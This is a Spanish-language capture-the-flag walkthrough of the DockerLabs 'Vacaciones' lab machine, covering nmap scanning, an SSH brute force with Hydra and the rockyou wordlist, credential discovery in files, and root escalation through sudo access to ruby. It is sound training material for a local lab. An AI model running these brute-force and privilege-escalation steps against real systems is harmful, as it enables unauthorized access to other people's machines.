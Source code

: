
plataforma: https://dockerlabs.es/#/
Mirror: https://mega.nz/file/YCEGAISD#y6iWUG_auH4vUApClb9ix7H6JmOCKm4vAYS2TjQn59g
Nombre: Vacaciones
Dificultad: Muy fácil



1 comprobamos si tenemos docker instalado de no ser así lo instalamos

```sh fold:"Comprobar si docker está instalado"
docker -v
```

```sh fold:"Instalacion de docker"
sudo apt install docker.io
```

Ahora levantamos la maquina:

```sh fold:"Levantamos la maquina en docker"
sudo bash auto_deploy.sh vacaciones.tar 

```


Desplegamos la máquina:
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacaciones%20-%20Despliegue%20me%20maquina.png?raw=true)


Hacemos un ping para comprobar conectividad y sistema operativo:

ping 172.17.0.2       
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.154 ms


ttl=64 --> maquina Linux

ahora vamos a lanzar nmap
```sh fold:"Nmap"
sudo nmap -sS -p- -sC -sV -Pn 172.17.0.2
```
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20Nmap%20result.png?raw=true)

puertos
puerto 22 ssh
puerto 80  http

vamos a lanzar el scrip de nmap para cada puerto:

puerto 80:
```sh fold:"Scrip vulnerabilidades de Nmap puerto 80"
sudo nmap --script "vuln" -p80 172.17.0.2 
```

Descubierto:   After NULL UDP avahi packet DoS (CVE-2011-1002).
![image](https://github.com/borazuwarah/CTFs-ByBorazuwarah/blob/main/CTFs-By%20borazuwarah/DockerLabs/Vacaciones/Images/Dockerlabs%20-%20Vacacioens%20-%20%20Script%20vbuln%20p%2080.png?raw=true)

Ahora lanzamos el del puerto 22:

```sh fold:"Scrip vulnerabilidades de Nmap puerto 22"
sudo nmap --script "vuln" -p22 172.17.0.2 
```


Descubrimos la misma vulnerabilidad


![[Dockerlabs - Vacacioens -  Script Vulnerabilidad P22.png]]
no parece que podamos explotar nada


![[Dockerlabs - Vacacioens -  Vacaciones web.png]]

Al parecer no hay nada en la web:
Vamos a ver el código fuente:

![[Dockerlabs - Vacaciones - Codigo Fuente.png]]
y nos encontramos un mensaje:

<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
encontramos 2 usuarios:
- Juan
- Camilo


Alguno de estos usuarios podría estar en el sistema con acceso por SSH (puerto 22)

Como no conocemos la contraseña, solo podemos hacer fuerza bruta con Hydra





```sh fold:"Fuerza bruta con Hydra usuario camilo"
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

![[Dockerlabs - Vacaciones - Hydra p 22 usuario camilo.png]]

User: camilo  
password: password1


intentamos hacer login por ssh

```sh fold:"ssh acces con camilo como usuario"
ssh camilo@T172.17.0.2
```

acceso con camilo:
![[Dockerlabs - Vacaciones - acceso por ssh usuario camilo.png]]

## escalada de privilegios:
sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on 2f317d25df18.


```sh fold:"Revisar si tenemos permiso de escritura en /etc/passwd"
find / -writable -type f 2>/dev/null |grep '/etc/passwd' && ls -lah /etc/passwd
```
No result

```sh fold:"Revisar binarios que se puedan explotar"
find  / -perm -4000 2>/dev/null  
```

No result

Seguimos buscando
find / type f -name "*.txt" todos los ficheros txt:


![[Dockerlabs - Vacaciones - Fichero de correo encontrado.png]]

nos llama la atención este fichero  correo.txt que si tenemos acceso, vamos a abrirlo

![[Dockerlabs - Vacacioens -  Contenido fichero correo.png]]

Contenido:
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

Obtenemos una contraseña vamos a probarla con el usuario root:
![[Dockerlabs - Vacaciones - Intento acceso rrot.png]]

Pero hno accedemos
también tenemos el usuario Juan vamos a probar con este usuario:

Ahora is tenemos acceso con el usuario Junan:
![[Dockerlabs - Vacaciones - Acceso usuario Juan.png]]



$ sudo -l
Matching Defaults entries for juan on 2f317d25df18:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 2f317d25df18:
    (ALL) NOPASSWD: /usr/bin/ruby

Buscamos esto en gyfobins:

![[Dockerlabs - Vacacioens -  Gtfobbins ruby sudo access.png]]

ejecutamos este comando
y conseguimos acceso root
![[Dockerlabs - Vacaciones - Root access.png]]


ahora vamos a  eliminar la maquina pulsando Ctrl+C
![[Dockerlabs - Vacacioens -  Eliminar la maquina.png]]

Maquina resuelta completamente!! :D


